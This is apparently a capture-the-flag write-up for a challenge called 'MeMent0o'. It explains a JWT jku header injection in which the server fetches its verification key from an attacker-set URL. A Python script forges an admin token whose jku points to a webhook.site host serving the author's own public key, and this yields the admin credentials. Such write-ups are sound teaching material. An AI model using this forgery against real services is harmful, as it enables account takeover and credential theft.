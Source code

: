 ## MeMent0o

After registering a new user on the site, we get a jwt toke. Copying it onto jwt.io we can see this

![image](https://github.com/user-attachments/assets/76e5b34e-41b0-43ee-8436-f8a9b58d2e94)

The JWT verifiction code:

![image](https://github.com/user-attachments/assets/e779381e-b7bb-495f-9c92-596fe15a8445)

![image](https://github.com/user-attachments/assets/a1fd2f4d-12ad-4264-a1f6-af7cf0c0b11a)

So the app is sending request to what the jku header is set to andretrieving the public key from it.
Hence we can create a new keypair of private and public keys, craft a JWT token with username: admin , set the jku 
header to http://mywebsite/jku where im placing my public key over there and then sign the JWT using my private key. 

To bypass kid verifications: Use a copy of their function app.go/jwks() with my public key to create the jku url content. 

script to create;
```
import jwt
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization

# load private key from keypair.pem
with open("keypair.pem", "rb") as key_file:
    private_key = serialization.load_pem_private_key(key_file.read(),password=None,backend=default_backend())

payload = {
    "username": "admin"
}

headers = {
    "alg": "RS256",                        									# Algorithm for signing
    "typ": "JWT",                          									# Type of the token
    "jku": "https://webhook.site/4a0469d3-0f24-4ec4-a756-0d554f1064f7",  	# JSON Web Key Set URL
    "kid": "001122334455"                  									# Key ID
}

token = jwt.encode(payload, private_key, algorithm="RS256", headers=headers)
print("JWT Token:", token)
```

after sending this JWT to /get_creds we recieve the user credentials so we have the admin password
